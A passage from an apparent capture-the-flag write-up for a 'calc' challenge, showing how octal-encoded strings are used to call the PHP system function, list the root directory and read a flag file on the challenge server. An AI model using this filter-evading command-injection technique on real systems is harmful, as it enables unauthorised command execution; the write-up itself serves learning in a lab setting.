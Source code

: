 
There we go, this was definitely the result we wanted. Now to take it a step further I
encoded some more ls commands to see what I could find.

![System ls](/assets/grabCON/calc6.png)
<figcaption align=center><b>Figure 15-6: Contents of the Root Directory</b></figcaption>
&nbsp;


In the root directory we can see our goal: flagggg.txt. Now we just need to encode a command to read it.

```
("\143\141\164\40\57\146\154\141\147\147\147\147\56\164\170\164") --> (cat /flagggg.txt)

("\163\171\163\164\145\155")("\143\141\164\40\57\146\154\141\147\147\147\147\56\164\170\164") --> (system)(cat /flagggg.txt)
```

![Flag](/assets/grabCON/calc7.png)
<figcaption align=center><b>Figure 15-7: Contents of flagggg.txt</b></figcaption>
&nbsp;


And just like that, we have our flag and the challenge is complete.

&nbsp;

### **Breaking Bad**

```
Nothing much just a meme template 👀 of breaking bad.
```

For this next challenge we are again given only a link to a website.
